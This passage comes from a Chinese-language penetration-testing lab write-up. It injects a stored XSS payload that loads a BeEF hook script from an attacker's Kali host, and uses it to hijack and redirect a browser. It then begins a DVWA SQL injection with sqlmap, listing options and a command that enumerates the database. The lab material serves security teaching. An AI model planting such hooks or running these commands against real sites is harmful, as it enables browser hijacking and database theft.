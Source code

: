 ### 1x04 XSS注入漏洞
#### 2x01 XSS劫持网站
现在使用自己的本机访问留言簿的网站，并将XSS注入恶意代码。
XSS注入代码如下：
`<script src="http://Kali的IP地址:3000/hook.js"></script>`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117140452295.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
现在进入到这个当中我们可以发现已经成功了，而且看不到刚才写的代码，说明代码已经被成功的加载进去了！
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117140446773.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
刷新一下界面，可以发现会有一个弹框：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117140649183.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
然后再回到kali里面的beef管理界面看一下，可以发现10.34.80.1也就是我的本机已经被劫持了！
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117140922301.png#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117141052958.png#pic_center)
可以使用他干一些奇怪的事情，还有查询一些信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117142326400.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
#### 2x02 劫持浏览器指定被劫持网站为学校主页
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117150244138.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
在命令中选择，Redirect Browser，填入学校地址，然后点击Execute。就可以发现网页被重定向了。

本次实验中的XSS攻击属于注入型XSS攻击。

## 0x02 SQL注入（DVWA+SQLMAP+Mysql）

### 1x01 实验环境搭建
打开Metasploitable2后，里面有搭建好的DVWA，访问`http://Metasploitable的IP/dvwa`即可
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117161430968.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
在low级别的SQL Injection中进行SQL注入的尝试：
输入1，可以正常显示：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117161631674.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
输入1' 报错
可以判断此处有报错：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117161723620.png#pic_center)
下面使用sqlmap进行攻击

**SQLMAP基本语法**：

- -u:指定目标URL
- --cookie：当前会话的cookies值
- -b：获取数据库类型，检查数据库管理系统标识
- --current-db：获取当前数据库
- --current-user：获取当前数据库使用的用户
- -string：当查询可用来匹配页面中的字符串
- -users：枚举DBMS用户
- -password：枚举DBMS用户密码hash
### 1x02 枚举当前数据库名称和用户名
查询一下当前的数据库：
`sqlmap -u "http://10.34.80.4/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" --current-db`
